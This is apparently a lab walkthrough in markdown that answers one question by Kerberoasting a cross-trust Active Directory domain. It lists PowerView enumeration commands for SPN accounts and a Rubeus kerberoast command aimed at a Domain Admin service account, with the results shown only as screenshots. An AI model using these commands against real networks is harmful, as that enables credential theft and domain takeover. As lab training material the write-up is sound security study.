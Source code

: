 # Content

- [Content](#content)
  - [Question 1](#question-1)
    - [The way to hack](#the-way-to-hack)
    - [Answer](#answer)
  
## Question 1

### The way to hack

- We will enumerating accounts for associated SPNs using Get-DomainUser.
- Payload:
  - Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
  ![Picture](../../Image/Breaking%20Down%20Boundaries/1.png)
- We see that there is one account with an SPN in the target domain. A quick check shows that this account is a member of the Domain Admins group in the target domain, so if we can Kerberoast it and crack the hash offline, we'd have full admin rights to the target domain.
- We will enumerating the mssqlsvc account.
- Payload:
  - Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof
  ![Picture](../../Image/Breaking%20Down%20Boundaries/2.png)
- Now we perform a Kerberoasting Attacking with Rubeus using /domain Flag.
- Payload: 
    `.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap`
    ![Picture](../../Image/Breaking%20Down%20Boundaries/3.png)
- Now we copy the hash into the terminal of linux and crack it.
  ![Picture](../../Image/Breaking%20Down%20Boundaries/4.png)
  ![Picture](../../Image/Breaking%20Down%20Boundaries/5.png)
  
### Answer

![Picture](../../Image/Breaking%20Down%20Boundaries/6.png)

